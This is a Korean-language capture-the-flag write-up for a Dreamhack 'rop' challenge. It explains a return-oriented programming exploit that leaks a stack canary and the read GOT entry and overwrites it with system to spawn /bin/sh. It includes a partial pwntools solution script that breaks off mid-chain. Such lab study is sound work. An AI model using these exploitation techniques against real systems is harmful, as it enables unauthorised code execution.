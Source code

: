 ### 3.

출력한 `read_got` 값과 `libc`의 `system`함수와의 오프셋을 이용하여 `system_got` 값을 구하기

### 4.

`read(0, read_got, ...)`을 통해서 앞에서 구한 `system_got` 값에, 연속적으로 `/bin/sh` 문자열을 `read` 함수의 `STDIN(fd = 0)` 입력으로 보내서 `read_got`를 **Overwrite**하기  

이후 `p.send(p64(system) + b'/bin/sh\x00')`으로 입력이 끝나면 calling convention에 따라 `rip`가 바로 다음 실행 순서에 따라 아래 스택의 instruction으로 이동

### 5.

`read_got`가 변조(Overwrite)된 상태에서 `read('/bin/sh')`을 실행하도록 하면 `system('/bin/sh')`가 실행되므로,

`rdi`에는 앞에서 입력한 `/bin/sh`이 위치하는 `read_got+0x8`의 주소를 대입하고, `ret` 가젯으로 `read_plt`를 호출하도록 하여 익스플로잇 마무리

<img width="536" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/4cb122c9-2905-48a5-bf6a-3335c53c839b">

<img width="537" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/d51a5160-7c4f-4a10-85c4-ba4fc5ce7288">

<br>

## ret2main 풀이

```py
from pwn import *

context.arch = "amd64"
p = remote('host3.dreamhack.games', 13886)

e = ELF('./rop')
libc = ELF('./libc.so.6')

read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

read_system_offset = libc.symbols['read'] - libc.symbols['system']
read_binsh_offset = libc.symbols['read'] - list(libc.search(b'/bin/sh'))[0]

r = ROP(e)

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
ret = r.find_gadget(['ret'])[0]

p.send(b'a'*0x39)
# p.sendafter(b'Buf: ', b'a'*0x39)
p.recvuntil(b'a'*0x39)
canary = b'\x00' + p.recvn(7)
payload = b'a'*0x38 + canary + b'a'*0x8

payload += p64(ret)

# first main

# write(1, read_got, ...)

payload += p64(pop_rdi) + p64(0x1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(write_plt)

# 여기서는 read_got를 읽어오고 더이상 instruction이 read 말고는 없으므로 system 콜을 직접적으로 하려면 main으로 다시 돌아가야함
```